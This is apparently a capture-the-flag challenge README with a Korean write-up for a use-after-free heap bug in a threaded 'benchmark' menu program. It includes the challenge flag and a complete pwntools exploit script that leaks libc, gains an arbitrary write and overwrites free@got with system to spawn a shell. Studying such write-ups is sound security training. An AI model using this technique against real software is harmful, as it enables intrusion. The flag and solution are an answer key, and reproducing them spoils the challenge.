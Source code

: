 # benchmark

# Usage
- 2024 5월 #2 Space War

# Spec
- 1 Core

# Concept
- UAF

# Description
- Test your pc real quick :-)

# FLAG
- hspace{e604b31c05e0ed5ab9dac59a613eb309}

# WriteUp
# 풀이
Run / Re-run / Revise / Cleanup / Status 기능이 존재하는 menu challenge 이다.

```c
typedef struct _benchmark {
    thread t;
    int joined; 
    int rc;
    int parent;
    milliseconds elapsed;
    int arg_len;
    char *arg;
} benchmark;
```

Run : 유저에게 string을 입력받아 thread를 생성해 benchmark 진행, benchmark 객체는 전역변수 g_benchmark에서 관리된다.
Re-Run : 존재하는 Joined 상태의 benchmark를 parent로 선택해 새로운 benchmark를 생성한다. parent의 reference counter를 증가시키고 arg를 shallow copy한다.
Revise : arg를 arg_len 만큼 수정한다.
Cleanup : Joined 상태의 benchmark를 선택해 t를 join시키고 delete한다. parent 값이 유효할 경우 (Re-Run에 의해 생성되어) arg는 delete 하지 않는다.
Status : 각 benchmark의 status를 출력한다.

취약점은 Cleanup 함수에 존재한다. benchmark를 delete할 때 reference counter가 0인지 체크하지 않기에 child benchmark의 arg가 dangling pointer가 될 수 있다.

Exploit은 아래와 같다.

1. Benchmark 0 생성, Re-run으로 child benchmark 생성
2. Cleanup(0) -> Benchmark_1->arg는 dangling pointer가 된다.
3. Benchmark 2를 생성하며 0x30 크기의 arg 할당, 해당 arg는 Benchmark_0의 해제된 arg 위에 할당된다.
4. Status를 통해 Benchmark 2의 thread pointer를 읽어 libc leak
5. Revise를 통해 Benchmark 2의 arg를 조작해 AAW
6. libstdcpp의 free@got를 system으로 덮어 shell 획득

```python
from pwn import *

#p = process('./benchmark')
p = remote('localhost', 30030)

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b': ', str(0x30).encode())
p.sendlineafter(b': ', b'abcd')

sleep(0.1)

p.sendlineafter(b'> ', b'3')
p.sendlineafter(b': ', b'0')

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b': ', b'0')

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b': ', str(0x30).encode())
p.sendlineafter(b': ', b'abcd')

sleep(0.1)

p.sendlineafter(b'> ', b'5')
p.recvuntil(b'arg: ')
p.recvuntil(b'arg: ')
leak = u64(p.recv(6)+b'\x00\x00') 
libc = leak + 0xeb9c0
libcpp = libc + 0x249000
print(hex(libc), hex(libcpp))

pay = p64(leak) + p64(1)
pay += p64(0xffffffff) + p64(0xa)
pay += p64(0x30) + p64(libcpp+0x226c38)
p.sendlineafter(b'> ', b'4')
p.sendlineafter(b': ', b'1')
p.sendafter(b': ', pay)

p.sendlineafter(b'> ', b'4')
p.sendlineafter(b': ', b'0')
p.sendafter(b': ', p64(libc+0x50d70))

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b': ', str(0x30).encode())
p.sendlineafter(b': ', b'/bin/sh')

sleep(0.1)

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b': ', b'2')
p.recv()

p.interactive()
```
